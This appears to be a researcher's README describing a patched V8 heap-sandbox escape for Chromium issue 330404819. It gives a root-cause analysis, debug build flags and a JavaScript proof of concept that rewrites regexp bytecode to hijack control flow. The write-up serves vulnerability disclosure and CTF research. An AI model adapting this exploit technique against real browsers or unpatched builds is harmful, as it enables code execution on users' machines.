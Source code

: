 # V8 Sandbox Escape via Regexp

This technique achieves arbitrary code execution by modifying and interpreting the bytecode of a `regexp` object. I used this technique to claim V8CTF M122, M123, and blood Maglev in PlaidCTF.

## RCA

Issue: [330404819](https://issues.chromium.org/issues/330404819)

When attackers have the ability to perform out-of-bounds (OOB) read and write operations in the heap sandbox, they can modify `data` field of `regexp` object, which stores the address of bytecode. In the `IrregexpInterpreter::Result RawMatc`h function, the bytecode is read and interpreted. Many bytecodes are related to `register` operations, but the `register`s are located on the stack and lack boundary checks (only `DCHECK`). By modifying the bytecode, it is possible to achieve OOB write on the stack and hijack the control flow.

The workflow proceeds as follows: First, generate bytecode using `regex.exec`. Next, modify the bytecode array in data to execute arbitrary bytecode, ensuring to mark tier-up to guarantee the reuse of our malicious bytecode instead of regenerating it. Finally, execute our malicious bytecode again using `regex.exec` on the same string.

Since I could only find a way to move and set registers, I decided to form a ROP chain to get a shell. If there's a way to push RWX addresses onto the stack, it should be possible to achieve direct arbitrary code execution.

This was fixed in commit `b9349d97fd44aec615307c9d00697152da95a66a`.



## Reproduce

The `exp.js` works with debug build of commit `1fd3f98c07afc527a68ee15a9e0d6869defec2a9`.

build flags:

```
is_debug = true
v8_static_library = true
target_cpu = "x64"
v8_enable_sandbox = true
v8_enable_memory_corruption_api=true
```

Use `--sandbox-fuzzing` to enable `Sandbox` at runtime.

The exploit uses `push` and `pop` bytecodes for copying registers, `set` for adding constants on stack and `advance` for calculations.

Poc here hijacks control flow to `0x4141414141414141`, which can be verified via gdb since `--sandbox-fuzzing` will ignore memory violation issues. This should function effectively on other builds, as the offset has been consistently observed to remain unchanged.

```js
// Flags:  --sandbox-fuzzing
let s = "aaaaa";

var sbxMemView = new Sandbox.MemoryView(0, 0xfffffff8);
var addrOf = (o) => Sandbox.getAddressOf(o);

var dv = new DataView(sbxMemView);

var readHeap4 = (offset) => dv.getUint32(offset, true);
var readHeap8 = (offset) => dv.getBigUint64(offset, true);

var writeHeap1 = (offset, value) => dv.setUint8(offset, value, true);
var writeHeap4 = (offset, value) => dv.setUint32(offset, value, true);
var writeHeap8 = (offset, value) => dv.setBigUint64(offset, value, true);

var regex = /[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*/g;
let addr_regex = addrOf(regex);
let data_addr = readHeap4(addr_regex + 0xc);

regex.exec(s);
let bytecode = readHeap4(data_addr + 0x1b);
writeHeap4(data_addr + 0x2f, 2);

let arr = [];

function set_reg(idx, value) {
    arr.push((idx << 8) & 0xffffff00 | 0x08);
    arr.push(value);
}

function success() {
    arr.push(0x0000000e);
}

let idx = 0x52;
set_reg(idx++,0x41414141);
set_reg(idx++,0x41414141);
success();

for (var i = 0; i < arr.length; i++) {
    writeHeap4(bytecode + 0x7 + 4 * i, arr[i]);
}

regex.exec(s);
```
